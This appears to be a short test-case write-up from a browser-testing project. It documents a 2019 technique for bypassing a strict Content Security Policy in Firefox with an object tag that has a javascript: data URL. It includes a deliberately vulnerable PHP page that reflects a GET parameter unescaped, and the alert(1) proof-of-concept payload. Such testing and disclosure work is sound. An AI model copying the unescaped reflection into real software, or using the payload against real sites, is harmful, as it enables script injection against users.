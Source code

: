 ### Introduction
The following proof-of-concept page is vulnerable to reflected cross-site scripting attacks:
```
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>Document</title>
</head>
<body>
    <h1>CSP Bypass using object data</h1>
    <p id="reflect"><?=(isset($_GET['payload']) ?  $_GET['payload'] : 'missing GET param payload')?></p>
</body>
</html>
```
However, cross-site scripting attacks are limited by a strict Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) setting that eliminate the use of inline Javascript:
```
HTTP/1.1 200
[...]
Content-Security-Policy: default-src 'none'; base-uri 'none'; object-src 'none';
```
In October 2019, a security researcher, Matheus Vrech discovered a technique to bypass the above CSP settings. The author made a working proof of concept that worked for the then-currently Firefox version. Below is the idea of the bypass:
```
?payload=<object%20data="javascript:alert(1)"></object>
```
With this testcase, CanITrust team verifies this technique against many other browsers and versions. Furthermore, let's see if in the future, any other browsers would make the same mistake as Mozilla did.